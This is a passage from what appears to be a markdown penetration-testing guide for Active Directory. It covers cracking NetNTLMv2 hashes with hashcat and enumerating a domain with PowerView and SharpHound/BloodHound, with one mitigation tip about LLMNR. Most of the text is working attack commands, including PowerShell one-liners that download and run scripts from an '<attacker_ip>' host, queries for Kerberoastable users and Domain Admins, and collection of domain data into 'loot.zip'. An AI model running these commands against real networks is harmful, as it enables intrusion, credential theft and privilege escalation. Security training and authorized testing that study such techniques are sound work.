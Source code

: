         hashcat -m 5600 hashes.txt /path/to/wordlist.txt
        ```
* **Mitigation:** **Disable LLMNR and NBT-NS** via Group Policy. This is one of the most important security baselines for an internal network.

---

### ## Part 3: In-Depth Enumeration

Once you have credentials, the goal is to map the entire domain.

### ### PowerView

A powerhouse PowerShell tool for AD enumeration. It's part of the PowerSploit framework.

* **Core Commands:**
    ```powershell
    # Import the module
    IEX (New-Object Net.WebClient).DownloadString('http://<attacker_ip>/PowerView.ps1')

    # Find interesting users and groups
    Get-NetUser | select samaccountname, description, pwdlastset, lastlogon
    Get-NetGroup "Domain Admins" | Get-NetGroupMember
    Get-NetUser -SPN | select samaccountname, serviceprincipalname # Find Kerberoastable users

    # Find computers and domain controllers
    Get-NetComputer -FullData | select operatingsystem, dnshostname
    Get-NetDomainController

    # Enumerate GPOs and look for sensitive info
    Get-NetGPO | select displayname
    Get-GPOReport -All -ReportType Html -Path C:\tmp\gpo_report.html
    ```

### ### BloodHound & SharpHound

This is the most effective way to visualize AD attack paths. `SharpHound` is the collector, and BloodHound is the GUI.

* **Collection with SharpHound:**
    ```powershell
    # Run from a compromised host (PowerShell)
    IEX (New-Object Net.WebClient).DownloadString('http://<attacker_ip>/SharpHound.ps1')
    Invoke-BloodHound -CollectionMethod All -Domain <your_domain> -ZipFileName loot.zip

    # Or run the executable
    SharpHound.exe --collectionmethod All --domain <your_domain> --zipfilename loot.zip
    ```
* **Analysis:** Drag and drop the generated `loot.zip` file into the BloodHound GUI. Use the built-in queries to find:
    * Shortest Paths to Domain Admin
    * Find all Kerberoastable Users
    * Find Users with DCSync Rights
